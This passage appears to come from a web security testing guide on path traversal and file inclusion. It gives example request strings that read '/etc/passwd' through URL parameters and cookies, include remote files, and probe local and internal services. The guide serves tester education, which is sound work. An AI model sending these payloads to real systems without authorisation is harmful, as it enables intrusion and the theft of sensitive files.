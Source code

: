 Here are some examples of the checks to be performed at this stage:

-   Are there request parameters which could be used for file-related operations?
-   Are there unusual file extensions?
-   Are there interesting variable names?



    http://example.com/getUserProfile.jsp?item=ikki.html
    http://example.com/index.php?file=content
    http://example.com/main.cgi?home=index.htm

-   Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?



    Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower
    Cookie: USER=1826cc8f:PSTYLE=GreenDotRed

\

#### Testing Techniques

The next stage of testing is analyzing the input validation functions present in the web application. Using the previous example, the dynamic page called *getUserProfile.jsp* loads static information from a file and shows the content to users. An attacker could insert the malicious string “*../../../../etc/passwd*” to include the password hash file of a Linux/UNIX system. Obviously, this kind of attack is possible only if the validation checkpoint fails; according to the file system privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

    http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

For the cookies example:

    Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd

It's also possible to include files and scripts located on external website.

    http://example.com/index.php?file=http://www.owasp.org/malicioustxt

If protocols are accepted as arguments, as in the above example, it's also possible to probe the local filesystem this way.

    http://example.com/index.php?file=file:///etc/passwd

If protocols are accepted as arguments, as in the above examples, it's also possible to probe the local services and nearby services.

    http://example.com/index.php?file=http://localhost:8080 or http://example.com/index.php?file=http://192.168.0.2:9080

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters.

    http://example.com/main.cgi?home=main.cgi
